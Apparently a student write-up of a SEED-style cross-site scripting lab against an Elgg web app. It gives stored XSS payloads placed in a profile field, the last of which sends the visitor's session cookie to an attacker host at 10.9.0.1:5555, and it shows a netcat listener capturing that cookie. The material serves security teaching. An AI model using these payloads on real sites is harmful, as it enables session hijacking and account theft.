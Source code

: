 # Work developed in week 10

## **Lab Tasks**

### Task 1

After the lab setup, we have a variety of users we can choose to log in to the Elgg web app. For obvious reasons, Boby was the chosen one. To embed a JavaScript program into our profile we can edit our profile and paste the code below in the _Brief description_ field. Doing so, whenever a user accesses our profile, the code will be run and the alert will be displayed.

```jsx
<script>alert('XSS');</script>
```

We also discovered that the script is not only run in Boby’s profile. When we access the _Members_ tab on the website, which lists all the members and **also** their descriptions, the script is also run. This means that this vulnerability is a lot more dangerous since a user can be affected not only when visiting a profile containing malicious scripts, but also when browsing the list of all members.

### Task 2

In this task, we can simply replace the previous JavaScript embedded in the user’s _Brief description_ to show the logged-in user cookies in the alert window (something like `Elgg=7s6jahq0ei4qq4k29rdn21pjot` will show up).

```jsx
<script>alert(document.cookie);</script>
```

### Task 3

As discussed in the latest Task, the user’s cookies are printed out in the alert, but only the user can see it, not the attacker on another machine. We can do this by having the malicious JavaScript insert a tag with its src attribute set to send the cookie to the attacker’s machine. When the JavaScript inserts the img tag, the browser tries to load the image from the URL in the src field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript given below sends the cookies to port 5555 of the attacker’s machine (with IP address 10.9.0.1), where the attacker has a TCP server listening to the same port.

The code below was added in the _Brief description_ field.

```jsx
<script>document.write('<img src=http://10.9.0.1:5555?c='+escape(document.cookie)+'>');</script>
```

We can use **_netcat (nc)_** to create a TCP server that listens on the desired port (5555), with the command below. In the output, we can see the GET request made when accessing the infected user profile, where the user’s cookie is printed after the `?c=`.

```bash
[01/05/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 53434
GET /?c=Elgg%3D7s6jahq0ei4qq4k29rdn21pjot HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/
```
